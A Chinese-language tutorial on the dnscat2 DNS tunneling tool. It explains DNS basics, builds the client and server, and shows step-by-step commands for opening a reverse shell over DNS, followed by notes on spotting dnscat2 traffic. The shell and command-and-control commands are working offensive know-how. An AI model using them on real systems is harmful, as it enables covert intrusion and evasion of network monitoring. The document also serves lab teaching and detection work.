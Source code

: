 项目地址：[https://github.com/iagox86/dnscat2](https://github.com/iagox86/dnscat2)
### DNS介绍
DNS是域名系统(Domain Name System)的缩写，是因特网的一项核心服务，它作为可以将域名和IP地址相互映射的一个分布式数据库，能够使人更方便的访问互联网，而不用去记住能够被机器直接读取的IP数串。
DNS的记录类型有很多，有A，AAAA,CNAME,MX,SOA,NS等。
DNS Tunneling可以利用其中的一些记录类型来传输数据。例如A，MX，CNAME,TXT，NULL等。
```
A记录：A记录是用来指定主机名对应的ip地址记录，简单的说A记录是指定域名对应的IP地址。

AAAA记录：记录将域名解析到一个指定的ipv6的ip上

CNAME记录，别名解析。可以将注册不同的域名解析到一个ip地址。

NS记录：域名服务器记录，用来指定该域名是由哪个DNS服务器进行解析。

MX记录:指向的是一个邮件服务器。

TXT记录：一般是指某个主机名或域名的说明

PTR记录：反向DNS
```
DNS的解析过程可以分为两种类型：迭代查询和递归查询。通常本机到Local DNS Server的过程属于递归查询，而Local DNS Server对查询域名的解析过程属于迭代查询。为了减轻Local DNS Server的压力，提高解析速度，引入了缓存机制。缓存和TTL紧密相连，当TTL过期，Local DNS Server则会丢弃缓存的数据，重新从权威域名服务器上获取新的数据。
本地客户端---->Local DNS server---->根域服务器
Dns解析过程：系统发出dns解析之前会先看看本地是否保存了相关域名的解析，系统检测到hosts文件中没有响应的域名解析的时候会发送给本地dns解析服务器进行解析，解析之前会看看缓存中是否存在，如果没有，再将解析请求发给下一个dns服务器。结果返回后将该域名的解析结果保存到缓存中。
### DNSCat2 工具介绍
Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。
Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。
### DNSCat2 环境搭建
#### LInux 客户端搭建
```shell
git clone https://github.com/iagox86/dnscat2
cd dnscat2/client/
make
```
#### Linux 服务端搭建
```shell
# 有ruby 环境下
# 无ruby 环境 apt install ruby-full，我的ruby是2.7
cd dnscat2/server
gem install bundler
apt install ruby-dev
bundler install
```
### 反弹shell
首先在服务端运行
```shell
# root 模式下
cd dnscat2/server
ruby dnscat2.rb
```
然后在服务端banner信息中可以看到，如下所示的命令，在客户端处执行

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_23_MUjOmvbJ.png)

```shell
cd dnscat2/client
make
./dnscat --dns server=127.0.0.1,port=53 --secret=c229df179cba2226828cd03ff13859a4
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_23_ljbhtxSF.png)

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_oOKqkE9f.png)

在服务端执行

```shell
windows -a
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_FdC25E3T.png)

进入会话

```shell
window -i 1
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_24_1QIn5wck.png)

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_25_tmsgNkyQ.png)

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_25_k9gLFpDN.png)

退出当前通道，进入shell

```shell
suspend
windows -a
window -i 2
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_26_GhvceMf4.png)

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_26_8SA5h320.png)

#### 错误分析

1. 地址被占用

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_27_NBRexDp8.png)

```shell
netstat -ntlp
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_27_CQ0StDM8.png)

```shell
# 关闭之后无法上网，这个是dns解析
systemctl stop systemd-resolved.service
```

运行服务端之后，一直告知`warning: Capturing the given block using Kernel#proc is deprecated; use `&block` instead` 

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_28_gwzvPUa5.png)

```shell
# 将错误重定向到指定文件即可
ruby dnscat2.rb  2> error
```
![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_28_wFphZOCA.png)



### 流量检测
在使用dnscat2 利用dns隧道进行反弹shell，那么作为防守方该如何检测呢？
#### 特征dnscat
首先在客户端处，会向恶意服务端发送dns请求，且会一直发送，包里都有相同的特征dnscat

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_q8Vric92.png)



#### 域名特征
其次可以看到解析的域名很长，不符合正常域名

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_HClsX9JM.png)

 

####  对比正常dns 解析流量包

正常dns域名解析包如下，通过对比可以发现dnscat2 的特征是非常明显的，正常包是不会有加密

![image.png](./DNS隧道反弹shell.assets/2023_05_19_10_24_29_8VMF1SWD.png)



